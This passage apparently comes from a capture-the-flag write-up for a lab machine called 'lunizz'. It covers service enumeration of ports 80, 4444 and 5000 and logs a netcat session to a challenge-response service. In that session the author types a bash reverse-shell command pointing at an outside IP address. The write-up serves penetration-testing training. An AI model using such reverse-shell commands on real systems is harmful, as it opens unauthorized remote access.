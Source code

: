 ```bash
          <a href="#scope">Scope</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#files">Config files</a>
        </div>
      </div>


=============
SCRIPTS
=============


=============
IMAGES
=============

sources:
--------
[+] 1 : /icons/ubuntu-logo.png

alts:
-----
[+] 1 : Ubuntu Logo

===================
INTERESTING HEADERS
===================

Server : Apache/2.4.29 (Ubuntu)
```
Nothing interesting in port `80`, just the default apache page. 

</br> On port `4444` we have a strange `Challenge - Response` service:
```
$ nc $IP 4444
Can you decode this for me?
cmFuZG9tcGFzc3dvcmQ=
randompassword
root@lunizz:# /bin/bash -i >& /dev/tcp/10.8.147.71/8888 0>&1
FATAL ERROR
```
Looks like a distraction mostly.</br>
When attempting to connect to port `5000` in the browser (and with `nc`) I got the following:
```
OpenSSH 5.1
Unable to load config info from /usr/local/ssl/openssl.cnf
```
Confirming the fingerprinting of nmap.

# Web
